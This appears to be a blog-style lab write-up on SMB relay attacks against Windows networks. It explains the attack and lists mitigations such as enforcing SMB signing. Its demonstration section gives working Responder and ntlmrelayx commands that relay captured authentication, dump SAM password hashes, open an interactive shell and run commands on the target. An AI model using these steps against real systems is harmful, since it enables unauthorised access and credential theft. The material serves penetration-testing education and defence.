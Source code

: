 ```yaml
---
title: "Understanding SMB Relay Attacks and Mitigation Techniques"
date: 2024-07-22
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
categories:
  - Blog
tags:
  - Cybersecurity
  - Offensive
  - Red Team
  - Penetration Testing
  - Ethical Hacking
  - Active Directory
  - SMB

 
tagline: "Secure Your Network: Uncovering SMB Relay Attacks and Effective Mitigation Strategies."
header:
  teaser: assets/images/tcm-academy/smb-relay-0.png
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/tcm-academy/smb-relay-0.png
  caption: "Photo credit: [**AI**](https://chatgpt.com/)"
---
```


## Introduction

In the world of network security, understanding various attack vectors is critical to safeguarding systems and data. One such attack is the SMB (Server Message Block) Relay attack, which exploits vulnerabilities in the SMB protocol commonly used in Windows environments. This article will explore what an SMB Relay attack is, the steps involved in executing such an attack, and mitigation strategies to reduce the associated risks. Additionally, I will include screenshots and steps from my lab demonstration using the Responder tool and NTLM Relay X.

<img src="/assets/images/tcm-academy/SMB_relay_attack_featured_image.png">

## What is an SMB Relay Attack?

An SMB Relay attack is a type of Man-in-the-Middle (MitM) attack where an attacker intercepts and relays SMB authentication requests to a target server. This allows the attacker to authenticate themselves on behalf of the victim without knowing their credentials. The attack takes advantage of weak or misconfigured SMB services that allow for relay attacks, particularly when SMB signing is not enforced.



## Steps Involved in an SMB Relay Attack

1. **Identify Hosts without SMB Signing**:
   - The attacker scans the network to identify hosts that do not have SMB signing enforced, making them vulnerable to relay attacks.

2. **Attacker Configures Responder to Relay Requests**:
   - The attacker sets up the Responder tool to capture and relay SMB authentication requests on the network.

3. **Run Responder**:
   - The attacker runs Responder to listen for and capture SMB authentication requests from network hosts.

4. **Attacker Setup Relay X**:
   - The attacker configures NTLM Relay X to relay the captured authentication requests to the target server.

5. **A Triggering Event Occurs**:
   - An event, such as a user attempting to access a network resource, triggers the SMB authentication process.
   - The attacker intercepts and relays the authentication request using NTLM Relay X.

6. **Relay Side: Hashes of the SAM Get Dumped**:
   - The relayed authentication request results in the dumping of hashes from the Security Account Manager (SAM) database on the target server.
   - The attacker can crack these hashes to reveal passwords.

7. **Interactive Shell with -i Command**:
   - The attacker can create an interactive shell using the `-i` command with NTLM Relay X, allowing for direct interaction with the target system.

8. **Send Commands with -c Option**:
   - The attacker can send specific commands to the target system by adding the `-c` option to NTLM Relay X.

## Mitigation Strategies for SMB Relay Attacks

1. **Enforce SMB Signing**:
   - Enabling SMB signing on all systems ensures that SMB packets are digitally signed, preventing tampering and relay attacks.
   - This can be configured via Group Policy:
     - `Computer Configuration -> Policies -> Windows Settings -> Security Settings -> Local Policies -> Security Options`
     - Enable "Microsoft network client: Digitally sign communications (always)" and "Microsoft network server: Digitally sign communications (always)".
     <img src="/assets/images/tcm-academy/smb-relay-1.jpg">

2. **Disable SMBv1**:
   - SMBv1 is an older version of the SMB protocol that is more susceptible to attacks. Disabling it reduces the attack surface.
   - This can be done via <a href="https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server#disable-smbv1-by-using-group-policy">Group Policy</a> or through Windows <a href="https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server">features settings</a>.

3. **Use Strong Authentication Methods**:
   - Implement multi-factor authentication (MFA) to add an extra layer of security, making it harder for attackers to exploit relayed credentials.

4. **Segment the Network**:
   - Network segmentation limits the spread of an attack by isolating essential systems and services from the rest of the network.

5. **Regularly Update and Patch Systems**:
   - Keep all systems and software up-to-date with the latest security patches to protect against known vulnerabilities.

6. **Monitor and Detect**:
   - Use network monitoring tools to detect unusual activities and potential MitM attacks.
   - Implement alerting mechanisms to respond quickly to suspicious behavior.

## Demonstration: SMB Relay Attack Using Responder and NTLM Relay X


1. **Identify Hosts without SMB Signing Enabled and Enforced**: Scanned the network to find vulnerable hosts.

    ```bash
    nmap --script=smb2-security-mode.nse -p 445 <target IP address> -Pn
    ```

    ![Identify Hosts](/assets/images/tcm-academy/smb-relay-2.png)

2. **Create a targets file**:

    ```bash
    sudo nano target.txt
    ```

    ![Create Targets File](/assets/images/tcm-academy/smb-relay-3.png)

3. **Configure Responder to Relay Requests**: Set up Responder to capture and relay SMB authentication requests.

    ```bash
    sudo mousepad /etc/responder/Responder.conf
    ```

    ![Configure Responder](/assets/images/tcm-academy/smb-relay-4.png)

    Switch off SMB and HTTP:

    <img src="/assets/images/tcm-academy/smb-relay-5.png">

4. **Run Responder**: Executed Responder to listen for SMB authentication attempts.

    ```bash
    sudo responder -I eth0
    ```

    ![Run Responder](/assets/images/tcm-academy/smb-relay-6.png)

5. **Setup NTLM Relay X**: Configured NTLM Relay X to relay captured credentials to the target server.

    ```bash
    sudo python3 ntlmrelayx.py -smb2support -tf targets.txt
    ```

    ![Setup Relay X](/assets/images/tcm-academy/smb-relay-7.png)

6. **Triggering Event**: Captured SMB authentication request when a user tried to access a network resource.

    ![Triggering Event](/assets/images/tcm-academy/smb-relay-8.png)
    <img src="/assets/images/tcm-academy/smb-relay-9.png">

7. **Dump SAM Hashes**: Relayed the authentication request and dumped the hashes from the SAM database.

    ![Dump SAM Hashes](/assets/images/tcm-academy/smb-relay-10.png)

8. **Interactive Shell**: Created an interactive shell using the `-i` command.

    ```bash
    ntlmrelayx.py -tf targets.txt -smb2support -i
    ```

    ![Interactive Shell](/assets/images/tcm-academy/smb-relay-11.png)
    <img src="/assets/images/tcm-academy/smb-relay-12.png">

9. **Send Commands**: Sent specific commands to the target system using the `-c` option.

    ```bash
    ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
    ```

    ![Send Commands](/assets/images/tcm-academy/smb-relay-13.png)

## Conclusion

Understanding and mitigating SMB Relay attacks is critical for maintaining the security of networked systems. By enforcing SMB signing, disabling SMBv1, using strong authentication methods, segmenting the network, keeping systems updated, and monitoring network activities, organizations can significantly reduce the risk of such attacks. The lab demonstration provided practical insights into how these attacks are executed and the importance of implementing robust security measures.

Feel free to reach out with any questions or comments on this topic. Stay secure!


